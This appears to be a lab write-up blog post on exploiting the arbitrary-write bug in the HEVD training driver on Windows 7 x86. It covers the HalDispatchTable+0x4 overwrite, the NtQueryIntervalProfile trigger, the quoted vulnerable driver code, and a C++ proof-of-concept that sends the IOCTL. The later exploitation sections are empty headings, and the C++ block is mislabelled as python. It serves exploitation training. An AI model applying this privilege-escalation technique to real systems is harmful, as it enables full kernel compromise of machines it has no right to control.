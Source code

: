 ```yaml
---
layout: single
title: HEVD - Windows 7 x86 Kernel Arbitrary Write - abusing the HAL for a classic Write-What-Where
---
```


This post covers the HEVD exploitation of overwriting `HalDispatchTable+0x4` and calling `NtQueryIntervalProfile()` to obtain EOP.

Let's get this over with so I can go back to exploring Windows 10 and re-reading Windows Internals along with the new Windows 10 programming book that Pavel is releasing. Arbitrary Overwrites, otherwise can be referred to in this context as Write-What-Where exploitation, or even better, HalDistpatchTable overwrites. This post will focus on exploiting the Arbitrary Write vulnerability in the HEVD driver on a Windows 7 x86 system.

### Write 

If you can gain some kind of arbitrary write in the Windows kernel, you can leverage that for EOP.

### What

The payload that will be written is the say token-stealing shellcode payload that can be run through VirtualAlloc and some ctypes magic to turn it into a pointer, which we can write into a specified memory region.

### Where

This technique will cover the `HalDispatchTable+0x4` exploitation technique, where we will write our shellcode address into the HAL Dispatch table, we will overwrite a Dispatch Table pointer, which we can later call with the `NtQueryIntervalProfile` function. On that note, this post will also be covering some undocumented Windows API function research with WinDBG.

----

### HalDistpatchTable exploitation research & analysis

The HalDispatchTable is responsible for acting as a table which holds function pointers to various HAL routines. The HAL (Hardware Abstraction Layer) is responsible for acting as a software layer between kernel-mode execution and as an interface to hardware (motherboards, CPU, NICs, other devices) and the HAL is located in `hal.dll` which is invoked by `ntoskrnl.exe`

**Our exploitation technqiue**

With our arbitrary write vulnerability, we can write a controlled payload address to a controlled memory location in the kernel. 

With our Arbitrary Write, we need to find a good place to write to. We are going to overwrite a pointer that resides in the HalDispatchTable, specifically we want to utilize the `HalDispatchTable` since we can invoke and call it from a user-mode perspective, we can call aspects of the `HalDispatchTable` via the undocumented function `NtQueryIntervalProfile`

```c++
NTSTATUS 
NtQueryIntervalProfile (
    KPROFILE_SOURCE ProfileSource, 
    ULONG *Interval);
```

which will invoke `nt!KeQueryIntervalProfile` in the kernel which is used to leverage a call to `HalDispatchTable+0x4`. So if we overwrite `HalDispatchTable+0x4` and then invoke the `NtQueryIntervalProfile` function, that acts as a trigger. We can *write* our shellcode payload pointer into KernelLand and have it triggered via a UserLand function call.

So why 0x4 in the HAL Heap table?

As mentioned the `NtQueryIntervalProfile` function makes a direct call to `KeQueryIntervalProfile`, you can see that occuring below.

![hal 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/hevd_www4.png)

We can see how the `KeQueryIntervalProfile` function specifically will invoke a call to the 0x4 location of the HAL table.

```c++
ULONG
KeQueryIntervalProfile(
  IN  KPROFILE_SOURCE ProfileSource
  );
```

![hal 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/hevd_www1.png)

So when we overwrite 0x4, we can call it from a user-mode function (NtQueryIntervalProfile). 

Our exploitation workflow is as follows

1. Locate the `HalDispatchTable` in the kernel (via the `NtQuerySystemInformation` function)
2. Overwrite `HalDispatchTable+0x4` with our shellcode payload pointer address
3. Calculate and locate the address of `NtQueryIntervalProfile`
4. Call `NtQueryIntervalProfile` and trigger our EOP shell

### The HEVD vulnerability & analysis

```c++
#ifdef SECURE
        // Secure Note: This is secure because the developer is properly validating if address
        // pointed by 'Where' and 'What' value resides in User mode by calling ProbeForRead()
        // routine before performing the write operation
        ProbeForRead((PVOID)Where, sizeof(PULONG_PTR), (ULONG)__alignof(PULONG_PTR));
        ProbeForRead((PVOID)What, sizeof(PULONG_PTR), (ULONG)__alignof(PULONG_PTR));

        *(Where) = *(What);
#else
        DbgPrint("[+] Triggering Arbitrary Overwrite\n");

        // Vulnerability Note: This is a vanilla Arbitrary Memory Overwrite vulnerability
        // because the developer is writing the value pointed by 'What' to memory location
        // pointed by 'Where' without properly validating if the values pointed by 'Where'
        // and 'What' resides in User mode
        *(Where) = *(What);

```

The vulnerability here is being shown really well, the issue is the lack of validation of the two pointers `Where` and `What` on the line `*(Where) = *(What);`. It's not properly validating where the pointer values reside. In the secure version of the function, it's utilizing the `ProbeForRead` function which is a routine that checks that a user-mode buffer is actually residing in the user portion of the address space. 

```c++
void ProbeForRead(
  const volatile VOID *Address,
  SIZE_T              Length,
  ULONG               Alignment
);
```

The provided parameters that are given by this secure function is the address of the beginning of the user-mode buffer the size and length of the buffer, and it's also specifying the required alignment.

### IOCTL discovery & driver communication

For discovering the needed IOCTL, we can use just the provided CTL_MACRO again from the source code of the file.

![ioctl 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/hevd_www2.png)

You can use this to calculate the IOCTL.

![ioctl 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/hevd_www3.png)

Like always, there are multiple ways to capture and discover IOCTLs, feel free to use IDA for static analysis which leads to IOCTL discovery.

Now that we have the needed IOCTL we can send out skeleton script with a payload to the device driver.

```python
#include <windows.h>
#include <iostream>

#define DEVICE_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL 0x22200b

int main(){
    std::cout << "[+] HEVD - Arbitrary overwrite Windows 7 x86 exploit POC\n\n";

    HANDLE hDevice = CreateFileA(DEVICE_NAME,
                                 GENERIC_READ | GENERIC_WRITE,
                                 FILE_SHARE_READ | FILE_SHARE_WRITE,
                                 NULL,
                                 OPEN_EXISTING,
                                 FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
                                 NULL);

    if (hDevice == INVALID_HANDLE_VALUE){
        std::cout << "[!] Failed to establish a device handler" << GetLastError() << std::endl;
    } else {
        std::cout << "[+] Established a handle to the device - " << DEVICE_NAME << std::endl;
    }

    std::cout << "[+] Preparing the buffer payload\n";

    DWORD InBufferSize = 0x64;
    LPVOID inputBuffer = (PULONG)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, InBufferSize);

    if(!inputBuffer){
        std::cout << "[!] Failed to allocate buffer memory\n";
    } else {
        std::cout << "[+] Input buffer memory successfully allocated\n";
    }

    RtlFillMemory((PVOID)inputBuffer, 0x4, 0x41);
    RtlFillMemory((PVOID)(inputBuffer + 1), 0x4, 0x42);

    std::cout << "[+] Filled input buffer\n";

    DWORD sizeReturn = 0;
    BOOL deviceCom = DeviceIoControl(hDevice,
                    IOCTL,
                    &inputBuffer,
                    InBufferSize,
                    NULL,
                    0,
                    &sizeReturn,
                    NULL);

    HeapFree(GetProcessHeap(), 0, LPVOID(inputBuffer));
    CloseHandle(hDevice);


    return 0;
}
```

This code should trigger the vulnerability if you decide to set a breakpoint on `TriggerArbitraryOverwrite`. 

### Infoleak to get the base address

We can use the `NtQuerySystemInformation` function for a easy information leak, this will allow us to obtain the kernel base address from ntoskrnl, which will allow us to locate the HAL. Before we overwrite the HAL entry, we need to find where it is.

```c++
__kernel_entry NTSTATUS NtQuerySystemInformation(
  IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
  OUT PVOID                   SystemInformation,
  IN ULONG                    SystemInformationLength,
  OUT PULONG                  ReturnLength
);
```

### Overwriting 0x4

### Triggering our shellcode with NtQueryIntervalProfile

### \\(ツ)/  EOP Party!!! \\(ツ)/
